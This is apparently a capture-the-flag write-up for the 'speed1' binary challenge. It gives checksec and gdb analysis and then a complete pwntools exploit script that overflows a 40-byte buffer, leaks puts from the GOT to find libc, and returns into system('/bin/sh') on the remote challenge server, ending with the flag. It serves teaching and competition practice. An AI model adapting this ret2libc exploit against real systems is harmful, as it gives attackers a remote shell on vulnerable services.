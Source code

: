 ```
$ checksec ./speed1
[*] '~/speed1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```
$ cyclic -n 8 100  
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

```
$ gdb ./speed1
entry
break fgets
c
```

![return address is 0x6161616161616166](speed-return-address.png)

```
$ cyclic -n 8 -l 0x6161616161616166
40
```


![main address was 0x4010d0](main-address.png)


Using pwndbg to see the GOT entries:

![puts is in got](got-functions.png)


```python
#!/usr/bin/env python3

import os
from pwn import *
import pwnlib.elf

context.log_level = 'debug'
c = remote('speed-01.hfsc.tf',61000)
#c = process('./speed1')
# break: 0x40124d
# c = gdb.debug(['./speed1'], gdbscript='''
#         b *0x40124d
#         c
# ''')
libc = ELF('libc.so.6')
e = ELF('./speed1')

context.binary = e
context.os = 'linux'
context.arch = 'amd64'
rop = ROP(e)

c.recvuntil('b0fz:')

# padding for buffer overflow
rop.raw("A" * 40)
rop.puts(e.got['puts'])
rop.call(0x4010d0) # address of main/entrypoint
print(rop.dump())

info("Stage 1, leaking puts@libc address")
c.sendline(rop.chain())
leakedPuts = c.recvline()[:8].strip()

leakedPuts = int.from_bytes(leakedPuts, byteorder='little')
success(f'Leaked puts: {leakedPuts:x}')
libc.address = leakedPuts - libc.symbols['puts']
info(f"Libc Address: {libc.address:x}")

info("Stage 2, ret2shell")
c.recvuntil('b0fz:')
rop2 = ROP(libc)
rop2.call(rop.find_gadget(['ret']))
rop2.call(libc.symbols['system'], [next(libc.search(b"/bin/sh\x00"))])

padding = (b"A"*40)
payload = b"".join([padding, rop2.chain()])
c.sendline(payload)
c.interactive()
```


![the flag was midnight{b3ee4fd1e8b331a237b234395d1ad0a0}](got-flag.png)
